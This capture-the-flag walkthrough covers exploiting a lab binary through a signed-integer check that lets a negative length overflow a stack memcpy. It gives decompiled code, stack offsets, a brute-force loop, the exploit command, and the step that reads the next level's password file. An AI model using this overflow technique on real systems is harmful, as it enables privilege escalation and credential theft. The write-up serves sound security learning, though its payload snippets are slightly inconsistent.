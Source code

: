 # Bonus 01 Walkthrough

## Binary analysis

The binary takes two arguments: a number and a string. It converts the first argument to an integer (n), checks if n > 9, and then copies n*4 bytes from argv[2] to a stack buffer using memcpy. If n equals 0x574f4c46 (the magic value 'FLOW'), it spawns a shell.

### Key decompiled code
```c
int n = atoi(argv[1]);
if (n > 9) return 1;
    memcpy(&buffer, argv[2], n * 4);
if (n == 0x574f4c46)
    execl("/bin/sh", "sh", 0);
```

## Exploitation

- The check only prevents n > 9, but negative values are not handled. By passing a large negative value, we can copy more data than intended and overwrite the stack, including the variable n.
- We craft a payload that overwrites n with 0x574f4c46.

We calculate the offset between the dest of memcpy and the variable n, from the disassembly of main :

```
0x08048464 <+64>:	lea    0x14(%esp),%eax
0x08048478 <+84>:	cmpl   $0x574f4c46,0x3c(%esp)
```

We craft the payload with the offset and the magic value:

```python
b"A"*40 + b"\x57\x4f\x4c\x46"[::-1]
```

We brute-force a working negative value:
```python
payload = b"A"*40 + b"\x57\x4f\x4c\x46"
for i in range(-2147483648, 10):
    os.system(f"./bonus1/bonus1 {i} {payload} 2>/dev/null && echo OK for {i}")
```

Working exploit:
```
./bonus1 -2147483635 "$(python -c 'print(b"A"*40 + b"\x57\x4f\x4c\x46"[::-1])')"
```

## Commands used

```
./bonus1 -2147483635 "$(python -c 'print(b"A"*40 + b"\x57\x4f\x4c\x46"[::-1])')"
cat /home/user/bonus2/.pass
```

## Result

After running the exploit, we get a shell as bonus2 and can read the password:

```
cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```
 